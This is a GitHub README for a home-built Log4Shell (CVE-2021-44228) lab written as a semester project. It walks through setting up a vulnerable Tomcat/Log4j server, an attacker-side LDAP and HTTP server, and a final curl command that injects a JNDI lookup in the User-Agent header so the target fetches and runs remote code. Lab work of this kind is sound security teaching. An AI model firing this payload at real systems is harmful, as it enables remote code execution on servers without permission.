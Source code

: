 # log4j-playground

This is standalone Log4j playground I developed as a semester project to exploit CVE-2021-44228. I found numerous setups, but they all were docker containers and I wanted to build something from scratch. So feel free to use it, modify it, or let me know if there's any issue. Have fun [safely]!

## Core Requirements:
1) Ubuntu Server (LTS)
2) Apache Tomcat 7.0.99
3) Log4j 2.12.0
4) JDK 7u80

We have a simple web application hosted on our Tomcat server solely for the functional purpose (there's no aesthetics :)) to emulate real-world webapp. And when someone enters some text, their input, as well as their user-agent gets logged by log4j for analysis (it's original purpose), and this is what we will exploit by requesting to [our] attacker-controlled LDAP server to provide remote codebase and make the server fetch it and execute it. On kali, spin a LDAP and an HTTP server to provide this codebase and BOOM! We can execute code remotely on the Ubuntu server!

All the files for the Ubuntu-server is in the `mywebapp` folder, and the files required to exploit is in the `ldap-server` folder.


## Vulnerable Ubuntu Server

1) To set-up the server, download Apache Tomcat and set it up in a system folder (ideally). I saved mine as `/opt/apache-tomcat`
2) Download and set-up [Java SE 7](https://www.oracle.com/ca-en/java/technologies/javase/javase7-archive-downloads.html) for the whole system.
3) Then go into the webapp folder and compile our simple web application using the following command. You can use the log4j modules I provided as-is, or go ahead and download from [official Apache archive](https://archive.apache.org/dist/logging/log4j/2.12.0/ "Index of /dist/logging/log4j/2.12.0") and follow further steps
```shell
javac -cp ".:WEB-INF/lib/*" -d WEB-INF/classes/ src/main/java/com/example/LogExampleServlet.java  -nowarn
```

4) Then copy and paste the whole folder in your `/PATH/TO/apache-tomcat/webapps/` folder
```shell
cp -r mywebapp /PATH/TO/apache-tomcat/webapps/
```

And this should load the webpage on `http://ubuntu-server:8080/mywebapp/index.jsp` if you check. And this is all there is to the vulnerable machine set-up!


Note: Idk but on initial testing, it wasn't seem to work, and I had to create a .war file and place it in my `webapps` folder. So you can see if the above steps also work for you or not. But if not, try the below (I am not a JAVA programmer, so don't ask me).
```shell
jar cvf mywebapp.war *
cp mywebapp.war ../
```

## Attacker Machine

### Payload

For our actual malicious code, compile the `Evail.java` file using the same vulnerable jdk version present in ubuntu (ie 7u80) (makes sense right?) using the following code.

```Shell
/PATH/TO/jdk1.7.0_80/bin/javac Evail.java -Xlint:deprecation
```

### LDAP Server 
For the LDAP Server, we download the LDAP library from [official LDAP site](https://ldap.com/unboundid-ldap-sdk-for-java/ "UnboundID LDAP SDK for Java") and compile our Server file and execute it.
```shell
javac -cp .:/opt/unboundid-ldapsdk-7.0.0/unboundid-ldapsdk.jar Server
java -cp .:/opt/unboundid-ldapsdk-7.0.0/unboundid-ldapsdk.jar Server
```
And on other terminal window, we spin our python server
```shell
python -m http.server 8000
```

### Exploit

Now the only step left to send our payload and let the whole process unfold.
```shell
curl ubuntu-server:8080/mywebapp/logExample -H 'User-Agent: ${jndi:ldap://192.168.56.101:9999/Evail}' 
```
